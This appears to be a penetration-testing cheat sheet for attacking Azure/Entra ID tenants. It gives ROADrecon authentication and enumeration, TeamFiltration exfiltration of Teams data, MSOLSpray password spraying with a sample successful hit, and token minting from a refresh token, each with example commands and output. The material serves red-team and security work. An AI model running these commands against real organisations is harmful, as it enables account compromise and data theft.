 ```yaml
---
title: "Azure Enum"
date: 2025-02-21
tags: ["Cloud", "Azure", "Password Spraying", "Enumeration", "Microsoft", "Windows", "Reconnaissance"]
---
```


### Recon

{{< tab set1 tab1 >}}ROADTools{{< /tab >}}
{{< tab set1 tab2 >}}TeamFiltration{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Authenticate

```console
roadrecon auth -u '<USER>' -p '<PASSWORD>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon auth -u 'apple.seed@example.com' -p 'Test1234'
Tokens were written to .roadtools_auth
```

#### 2. Info Gathering

```console
roadrecon gather
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gather                                                       
Starting data gathering phase 1 of 2 (collecting objects)
Starting data gathering phase 2 of 2 (collecting properties and relationships)
ROADrecon gather executed in 12.27 seconds and issued 1152 HTTP requests.
```

#### 3. Explore the Data

```console
roadrecon gui
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gui   
 * Serving Flask app 'roadtools.roadrecon.server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Data Exfiltration

```console
./TeamFiltration --roadtools .roadtools_auth --exfil --teams --outpath <OUTPUT_PATH>
```

<small>*Ref: [TeamFiltration](https://github.com/Flangvik/TeamFiltration)*</small>

{{< /tabcontent >}}

---

### Password Spraying

> <strong>BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!</strong>

{{< tab set2 tab1 >}}MSOLSpray{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import Module

```console
Import-Module MSOLSpray.ps1
```

#### 2. Run

```console
Invoke-MSOLSpray -UserList <USERS_FILE> -Password
```

```console {class="sample-code"}
┌──(kali㉿kali)-[/home/kali/Desktop/MSOLSpray]
└─PS> Invoke-MSOLSpray -UserList .\users.txt -Password Test1234                                                                                                                                         
[*] There are 10 total users to spray.
[*] Now spraying Microsoft Online.                                                                                                                                                                                  
[*] Current date and time: 02/20/2025 14:48:11                                                                                                                                                                      
[*] SUCCESS! apple.seed@example.com : Test1234
```

<small>*Ref: [MSOLSpray](https://github.com/dafthack/MSOLSpray)*</small>

{{< /tabcontent >}}

---

### Generate Token with Refresh Token

{{< tab set3 tab1 >}}ROADTools{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
roadtx gettokens --refresh-token '<SECRET>' -c '<CLIENT_ID>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadtx gettokens --refresh-token '1.Aa8AA---[SNIP]---zt4WQ' -c '04b07---[SNIP]---f7b46'
Requesting token for resource https://graph.windows.net
Tokens were written to .roadtools_auth
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
